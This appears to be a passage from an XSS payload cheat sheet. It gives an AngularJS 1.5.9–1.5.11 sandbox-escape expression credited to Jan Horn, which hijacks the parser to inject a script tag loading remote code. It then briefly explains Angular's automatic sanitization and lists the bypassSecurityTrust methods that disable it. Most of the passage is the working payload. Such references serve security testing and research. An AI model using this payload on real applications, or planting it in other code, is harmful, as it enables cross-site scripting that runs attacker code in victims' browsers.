   

1.5.9 - 1.5.11 by Jan Horn (Cure53, now works at Google Project Zero)

  

```javascript

{{

c=''.sub.call;b=''.sub.bind;a=''.sub.apply;c.$apply=$apply;

c.$eval=b;op=$root.$$phase;

$root.$$phase=null;od=$root.$digest;$root.$digest=({}).toString;

C=c.$apply(c);$root.$$phase=op;$root.$digest=od;

B=C(b,c,b);$evalAsync("astNode=pop();astNode.type='UnaryExpression';astNode.operator='(window.X?void0:(window.X=true,eval(`var _=document.createElement(\\'script\\');_.src=\\'//localhost/m\\';document.body.appendChild(_);`)))+';astNode.argument={type:'Identifier',name:'foo'};");

m1=B($$asyncQueue.pop().expression,null,$root);

m2=B(C,null,m1);[].push.apply=m2;a=''.sub;

$eval('a(b.c)');[].push.apply=a;

}}

```

  

## Automatic Sanitization

  

> To systematically block XSS bugs, Angular treats all values as untrusted by default. When a value is inserted into the DOM from a template, via property, attribute, style, class binding, or interpolation, Angular sanitizes and escapes untrusted values.

  

However, it is possible to mark a value as trusted and prevent the automatic sanitization with these methods:

  

- bypassSecurityTrustHtml

- bypassSecurityTrustScript

- bypassSecurityTrustStyle

- bypassSecurityTrustUrl

- bypassSecurityTrustResourceUrl

  
